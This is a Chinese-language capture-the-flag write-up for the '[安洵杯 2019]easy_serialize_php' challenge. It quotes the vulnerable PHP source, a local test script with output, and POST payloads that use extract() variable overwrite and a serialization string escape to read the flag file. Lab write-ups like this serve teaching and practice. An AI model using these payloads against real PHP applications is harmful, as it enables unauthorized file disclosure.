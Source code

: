 # 原创
：  [安洵杯 2019]easy_serialize_php

# [安洵杯 2019]easy_serialize_php

#### [安洵杯 2019]easy_serialize_php

## 考点

> 
extract()变量覆盖、PHP反序列化字符串逃逸


## 思路

> 
首先分析题目直接给的源码<br/> 题目告诉我们当参数f=phpinfo时，可以通过phpinfo得到一些有用的东西，即flag文件的名字d0g3_f1ag.php<br/> 我们可以看见最关键的就是img，所以我们需要控制这个img<br/> 可以看见有个extract($_POST);，可以实现变量覆盖，所以我们可以构造一个新的session值<br/> 结合filter函数实现字符串逃逸，来实现d0g3_f1ag.php


```
// 源码
&lt;?php

$function = @$_GET['f'];

function filter($img){
    $filter_arr = array('php','flag','php5','php4','fl1g');
    $filter = '/'.implode('|',$filter_arr).'/i';
    return preg_replace($filter,'',$img);
}


if($_SESSION){
    unset($_SESSION);
}

$_SESSION["user"] = 'guest';
$_SESSION['function'] = $function;

extract($_POST);

if(!$function){
    echo '&lt;a href="index.php?f=highlight_file"&gt;source_code&lt;/a&gt;';
}

if(!$_GET['img_path']){
    $_SESSION['img'] = base64_encode('guest_img.png');
}else{
    $_SESSION['img'] = sha1(base64_encode($_GET['img_path']));
}

$serialize_info = filter(serialize($_SESSION));

if($function == 'highlight_file'){
    highlight_file('index.php');
}else if($function == 'phpinfo'){
    eval('phpinfo();'); //maybe you can find something in here!
}else if($function == 'show_image'){
    $userinfo = unserialize($serialize_info);
    echo file_get_contents(base64_decode($userinfo['img']));
}

```

## Payload

```
// 测试payload
&lt;?php
function filter($img){
    $filter_arr = array('php','flag','php5','php4','fl1g');
    $filter = '/'.implode('|',$filter_arr).'/i';
    return preg_replace($filter,'',$img);
}

$_SESSION['flagphp']=';s:3:"333";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}';
$_SESSION['img'] = base64_encode('guest_img.png');

$serialize_info = filter(serialize($_SESSION));
echo $serialize_info."\n";
var_dump(unserialize($serialize_info));
$b = unserialize($serialize_info);
echo $b['img'];
?&gt;

a:2:{s:7:"";s:50:";s:3:"333";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}";s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}
array(2) {
  ["";s:50:"]=&gt;
  string(3) "333"
  ["img"]=&gt;
  string(20) "ZDBnM19mMWFnLnBocA=="
}
ZDBnM19mMWFnLnBocA==

```

> 
第一次传参：<br/> get：`f=show_image`<br/> post：`_SESSION[flagflag]=";s:3:"aaa";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}`


> 
第二次传参：<br/> get：`f=show_image`<br/> post：`_SESSION[flagflag]=";s:3:"aaa";s:3:"img";s:20:"L2QwZzNfZmxsbGxsbGFn";}`<br/> 得到flag

